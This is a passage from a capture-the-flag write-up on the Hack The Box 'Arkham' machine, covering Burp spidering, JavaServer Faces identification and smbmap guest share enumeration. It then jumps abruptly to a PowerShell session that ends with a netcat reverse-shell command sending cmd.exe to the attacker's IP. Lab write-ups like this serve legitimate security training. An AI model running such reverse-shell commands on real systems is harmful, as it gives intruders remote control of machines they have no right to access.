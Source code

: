 ![](/assets/images/htb-writeup-arkham/port8080.png)

![](/assets/images/htb-writeup-arkham/subscribe.png)

Most of the links are not functional, but to make sure I didn't miss anything I spidered the website with Burp:

![](/assets/images/htb-writeup-arkham/spider.png)

The `userSubscribe.faces` file is the *Subscribe* link on the main page.

The `.faces` extension is used by JavaServer Faces

According to Wikipedia:

> JavaServer Faces (JSF) is a Java specification for building component-based user interfaces for web applications[1] and was formalized as a standard through the Java Community Process being part of the Java Platform, Enterprise Edition. It is also a MVC web framework that simplifies construction of user interfaces (UI) for server-based applications by using reusable UI components in a page.

I'll get back to that after the SMB enumeration, this is the way in.

### SMB enumeration

I'll use `smbmap` to quickly scan for accessible shares. I'm using an invalid username here so it connects as guest and not using a null session.
```
# smbmap -u snowscan -H 10.10.10.130
[+] Finding open SMB ports....
[+] Guest SMB session established on 10.10.10.130...
[+] IP: 10.10.10.130:445	Name: arkham.htb
	Disk                                                  	Permissions
	----                                                  	-----------
	ADMIN$                                            	NO ACCESS
	BatShare                                          	READ ONLY
	C$                                                	NO ACCESS
	IPC$                                              	READ ONLY
	Users                                             	READ ONLY
```

`BatShare` is accessible in read-only mode and there is a single file in there.

```
# smbmap -u snowscan -r BatShare -H 10.10.10.130
[+] Finding open SMB ports....
[+] Guest SMB session established on 10.10.10.130...
[+] IP: 10.10.10.130:445	Name: arkham.htb
	Disk                                                  	Permissions
	----                                                  	-----------
	BatShare                                          	READ ONLY
	./
	dr--r--r--                0 Sun Feb  3 08:04:13 2019	.
	dr--r--r--                0 Sun Feb  3 08:04:13 2019	..
	fr--r--r--          4046695 Sun Feb  3 08:04:13 2019	appserver.zip
```


[arkham]: PS C:\Users\Batman\Documents>
[arkham]: PS C:\Users\Batman\Documents> cd ..
[arkham]: PS C:\Users\Batman\Documents> whoami
[arkham]: PS C:\Users\Batman\Documents> cd \users\administrator\desktop
[arkham]: PS C:\Users\Batman\Documents> c:\programdata\nc.exe -e cmd.exe 10.10.14.23 6666